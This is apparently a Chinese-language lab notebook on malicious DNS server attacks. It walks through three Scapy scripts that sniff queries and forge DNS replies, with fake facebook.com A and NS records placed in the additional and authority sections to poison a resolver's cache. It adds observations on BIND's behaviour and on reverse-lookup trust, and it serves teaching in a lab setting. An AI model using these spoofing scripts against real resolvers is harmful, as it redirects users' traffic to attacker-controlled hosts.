








# 恶意DNS服务器伪造攻击

## 在附加部分伪造数据

用户dig查询的是abc.attacker32.com，但攻击机回复的包含了额外的facebook.com，如果被DNS服务器接收，那就缓存了
恶意的解析地址  

```bash
vi spoof_additional_only.py
```
```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if (DNS in pkt and 'abc.attacker32.com' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    Anssec  = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                   rdata='192.168.0.101',ttl=259200)
    Addsec1 = DNSRR(rrname='www.attacker32.com', type='A',
                   ttl=259200, rdata='10.2.3.4')
    Addsec2 = DNSRR(rrname='facebook.com', type='A',
                    ttl=259200,rdata='10.2.3.5')
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1,rd=0,
                qdcount=1,qr=1,ancount=1,nscount=0,arcount=2,
                an=Anssec, ar=Addsec1/Addsec2)
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

pkt=sniff(filter='udp and dst port 53',
          prn=spoof_dns)
```

步骤：  
1、服务端清缓存  
```bash
sudo rndc flush
```
2、攻击机运行攻击程序  


3、用户机发dig请求  

实验说明附加字段信息被接受了

!!! warning

    书上filter是udp and (src host 192.168.230.154 and dst port 53)，做不出来这个效果
    
## 在授权部分伪造数据

```bash
vi spoof_additional_only2.py
```

```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if (DNS in pkt and 'abc.attacker32.com' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    Anssec  = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                   rdata='192.168.0.101',ttl=259200)
    NSsec1 = DNSRR(rrname='attacker32.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    NSsec2 = DNSRR(rrname='facebook.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1,rd=0,
                qdcount=1,qr=1,ancount=1,nscount=2,
                an=Anssec, ar=NSsec1/NSsec2)
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

pkt=sniff(filter='udp and dst port 53',
          prn=spoof_dns)
```


!!! warning

    上面这个是书上的脚本，无法实现增加一个nn记录，只是说了有这种情况
    
## 在附加部分伪造与授权部分相关的数据

第一个实验附加部分伪造数据，附加部分的www.attacker32.com没有被接受，这次在授权部分增加两条与附加部分中
名字相关的记录。  
这个实验和上一个例子不一样，上一个是给facebook.com域提供NS记录，而这个例子是把facebook.com当作attacker32.com
域的一个域名服务器。虽然facebook.com不在attacker32.com的区域内，但作为域名服务器是允许的，因为一个域的权威
域名服务器不一定非要在这个域内。

```python
#!/usr/bin/python
from scapy.all import *

def spoof_dns(pkt):
  if (DNS in pkt and 'abc.attacker32.com' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src,src=pkt[IP].dst)
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    Anssec  = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                   rdata='192.168.0.101',ttl=259200)
    Addsec1 = DNSRR(rrname='www.attacker32.com', type='A',
                   ttl=259200, rdata='10.2.3.4')
    Addsec2 = DNSRR(rrname='facebook.com', type='A',
                    ttl=259200,rdata='10.2.3.5')
    NSsec1 = DNSRR(rrname='attacker32.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    NSsec2 = DNSRR(rrname='facebook.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1,rd=0,
                qdcount=1,qr=1,ancount=1,nscount=2,arcount=2,
                an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

pkt=sniff(filter='udp and dst port 53',
          prn=spoof_dns)
```


!!! Note

    本地DNS服务器的确发出了www.attacker.com和facebook.com的DNS请求，BIND域名服务器虽然缓存了这些信息，
    但因为安全原因，并不信任附加部分给出的IP地址。
    
## 在回复部分伪造数据：针对DNS反向查找

!!! Note

    通过反向DNS查询获得的域名不能被信任。如果确实想用域名作为安全检查的基础，那么在得到反向查询的结果后，
    还应当用这个结果做一次正向查询，并将正向查询得到的ip地址与原来ip地址进行比较。

反向查询过程：  
给到一个ip地址128.230.171.184（属于syr.edu区域），DNS解析器会构建一个假名字184.171.230.128.in-addr.arpa，然后
通过迭代过程发送请求。和正向查询一样，它会从root服务器开始，其后是in-addr.arpa服务器，然后是
128.in-addr.arpa服务器，最后到达230.128.in-addr.arpa服务器，这个服务器和syr.edu区域的域名服务
器相同。

反向查找过程：



